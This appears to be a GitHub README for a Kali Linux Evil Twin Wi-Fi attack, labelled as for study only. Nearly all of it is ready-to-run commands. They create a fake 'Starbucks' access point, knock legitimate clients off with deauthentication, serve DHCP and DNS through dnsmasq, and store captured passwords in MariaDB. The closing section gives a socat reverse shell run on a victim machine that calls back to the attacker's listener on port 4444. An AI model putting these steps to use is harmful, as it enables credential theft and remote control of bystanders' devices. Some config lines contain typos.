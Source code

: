 # 前言  ![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)

仅供参考,此project为学习之用,了解破解流程,学习无线安全

The recording file is in the link below:

https://drive.google.com/open?id=1EdF8AQh95s0FsDAZry5Uj2Y-TkjsgGOC

system : kali linux

software : aircrack-ng dnsmasq 
## Tasks

Evil Twin AP Attack: Set up a fake AP impersonating the target AP, and force target AP users to connect to it.

### 1. Start wireless card monitor mode 

```
airmon-ng start wlan0
```

(wlan0 is the port of the wireless network card,it can be check by inputing `ifconfig` or `iwconfig`)

### 2. Checking wireless AP(access point)

```
airodump-ng wlan0mon
```
(the prot been changed to wlan0mon after starting monitor mode)

this command can list all the information about AP ,Station and the traffic between them

you can see the name in the table 

BSSID : the MAC address of the AP

PWR : Signal strength

Beacons : one of the management frames, theo purpose of it is to transmit periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set.

Data : the throughput of the AP 

CH : channel

ENC : Encrept protocol 

ESSID : the name of AP

#### in case the channel will change over time,set the stable channel 
```
airodump-ng -c 11 -i wlan0 --bssid C4:71:54:23:2A:AE 
```

-c : channel number ,in this case , i choose 11

-i : choose the card to monitor 

--bssid : the MAC address of target AP

this command only show the traffic between client and target AP

## 3. Set up a fake AP impersonating the target AP

the client will be disconnected from the AP we input above 

```
airbase-ng -a AA:AA:AA:AA:AA:AA --essid 'Starbucks' -c 11 wlan0mon
```

-a :set up MAC address (this is optional)

-essid : the name of AP ,this should be same as the target WI-FI

-c : channel 11 (this is optional)

## 4. Deauth target by using aireplay-ng
```
aireplay-ng -0 0 -a C4:71:54:23:2A:AE -c EC:D0:9F:87:DD:6F  wlan0mon
```

-0 : Conflict attack mode , follow by the attack times , 0 represent all the times

-a : the MAC of AP  , this can be captured from the `airodump-ng wlan0mon`

-c : the client that connect to AP legally. if not spcecif which client , it will disconnect all the clients which connect to this WI-FI



## 5. Setup DNS and DHCP by using dnsmasq 

#### Dnsmasq provides Domain Name System (DNS) forwarder, Dynamic Host Configuration Protocol (DHCP) server, router advertisement and network boot features for small computer networks, created as free software.

1.Install dnsmasq in Kali Linux

```
apt-get update
apt-get install dnsmasq -y
```
This will update the cache and install latest version of dhcp server in your Kali Linux box.

Now all the required tools are installed. We need to configure apache and the dhcp server so that the access point will 

allocate the IP address to the client/victim and the client would be able to access our webpage remotely.

Now we will define the IP range and the subnet mask for the DHCP server.

2.Configure dnsmasq conf file 

Create a configuration file for dnsmasq using `vim` or your favorite text editor and add the following code.

```
vi ./conf/dnsmasq.conf
```
dnsmasq.conf

```
interface=at0         
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```

```
Tip: Replace at0 with wlan0 everywhere when hostapd is used for creating an access point
```

Parameter Breakdown
```
dhcp-range=10.0.0.10,10.0.0.250,12h:  Client IP address will range from 10.0.0.10 to 10.0.0.250 and default lease time is 12 hours.
dhcp-option=3,10.0.0.1:  3 is code for Default Gateway followed by IP of D.G i.e. 10.0.0.1
dhcp-option=6,10.0.0.1:  6 for DNS Server followed by IP address
```




## Another method for setup DHCP server and Mysql(for password caputre) in kali (optional)

1. install DHCP server

```
sudo apt install -y isc-dhcp-server
```
2.modify DHCP conf file

type the command below in your terminal

```
vi /etc/dhcp/dhcpd.conf
```
change the content or uncomment the content as follow

```
authoritative;
default-lease-wime 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```
launch the DHCP server ,

in kali , use command,

```
 dhcpd -cf /etc/dhcp/dhcpd.conf
```

after that ,type command below

start web server Apache

```
/etc/init.d/apache2.start
``` 
 
4.install mysql-server for storing captured password
 
```
apt-get install mariadb-server
```
Actually, for Kali Linux the apt-get install mysql-server command will not work, but try with apt-get install mariadb-server.
 
This will install MySQL
 
after installation ,type
 
```
/etc/init.d/mysql start
```



###  Reverse shell

1. install socat 

Type the command in your terminal

```
apt-get install socat
```
2. in victim machine
in this case 

VICTIM IP：192.168.1.107

KALI IP：192.168.1.102

Type command

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.102:4444
```
Just change the victimIP with your target IP

and in the attcker machine which is kali

Type command

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

## Authors

US579 

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
